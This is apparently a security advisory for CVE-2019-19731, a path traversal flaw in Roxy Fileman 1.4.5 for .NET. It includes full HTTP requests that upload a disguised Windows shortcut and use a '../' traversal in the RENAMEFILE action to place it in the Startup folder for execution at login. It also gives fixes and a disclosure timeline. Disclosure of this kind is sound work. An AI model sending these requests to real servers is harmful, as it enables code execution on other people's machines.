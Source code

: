# CVE-2019-19731: Directory traversal in Roxy Fileman for .NET 1.4.5

Roxy Fileman 1.4.5 for .NET is vulnerable to path traversal which can lead to file write in arbitrary locations depending on 
the IIS worker process privileges [1]. This PoC demonstrates a crafted Windows shortcut file being uploaded and written to the Startup folder. The execution
of this file will be triggered on the next login.

Tested on ASP.NET 4.0.30319 and Microsoft-IIS 10.0, Windows 10 Pro Build 17134.

## Proof of concept

It's possible to write an uploaded file to arbitrary locations using the `RENAMEFILE` action.
The `RenameFile` function in `main.ashx` does not check if the new file name parameter `name` is a valid location.
Moreover, the default conf.json has an incomplete blacklist for file extensions which in this case
allows Windows shortcut files to be uploaded, alternatively existing files can be renamed to include 
the `.lnk` extension.

1. Creating a shortcut file

By using for example the target executable `C:\Windows\System32\Calc.exe` and
removing the `.lnk` extension and renaming it to use the `.dat` extension.

2. Uploading the file

Either upload the `.dat` file manually via the Roxy Fileman web interface
or programmatically using a HTTP POST request. 

Details of the request:

```
POST /wwwroot/fileman/asp_net/main.ashx?a=UPLOAD HTTP/1.1
Host: 127.0.0.1:50357
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------159382831523528
Content-Length: 924
Origin: http://127.0.0.1:50357
Connection: close
Referer: http://127.0.0.1:50357/wwwroot/fileman/
Cookie: roxyld=%2Fwwwroot%2Ffileman%2FUploads%2Ftest2; roxyview=list

-----------------------------159382831523528
Content-Disposition: form-data; name="action"

upload
-----------------------------159382831523528
Content-Disposition: form-data; name="method"

ajax
-----------------------------159382831523528
Content-Disposition: form-data; name="d"

/wwwroot/fileman/Uploads/test2
-----------------------------159382831523528
Content-Disposition: form-data; name="files[]"; filename="poc.dat"
Content-Type: application/octet-stream

...data omitted...
-----------------------------159382831523528--
```

3. Write the file to the Startup folder using the `RENAMEFILE` action

The new filename is set via the `n` parameter. The correct path can be identified by trial and error depending 
on the location of `wwwroot` on the filesystem and the privileges for the IIS worker process (`w3wp.exe`).

If the necessary directories do not exist, they can be created using the `CREATEDIR` action which is also
vulnerable to path traversal.

```
POST /wwwroot/fileman/asp_net/main.ashx?a=RENAMEFILE&f=%2Fwwwroot%2Ffileman%2FUploads%2FDocuments%2Fpoc.dat&n=../../../../../../../../AppData/Roaming/Microsoft/Windows/Start%20Menu/Programs/Startup/poc.txt.lnk HTTP/1.1
Host: 127.0.0.1:50357
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 66
Origin: http://127.0.0.1:50357
Connection: close
Referer: http://127.0.0.1:50357/wwwroot/fileman/
Cookie: roxyld=%2Fwwwroot%2Ffileman%2FUploads%2Ftest2; roxyview=list

f=%2Fwwwroot%2Ffileman%2FUploads%2Ftest2%2Fpoc.dat&n=poc.dat
```

## Workaround / Fix
Patch the `main.ashx` code in order to perform checks for all paths that they are valid for the following actions: 
`CREATEDIR`, `COPYFILE` and `RENAMEFILE`.

Recommendations for users of Roxy Fileman:
  - Add `lnk` file extension to the `conf.json` under `FORBIDDEN_UPLOADS`, and `aspx` since it is not included in the blacklist by default.


## Timeline
- 2019-12-06: Discovered the vulnerability
- 2019-12-06: Reported to the vendor (vendor is unresponsive)
- 2019-12-11: Request CVE
- 2019-12-13: Advisory published

## References
[1] CVE-2019-19731 - https://nvd.nist.gov/vuln/detail/CVE-2019-19731
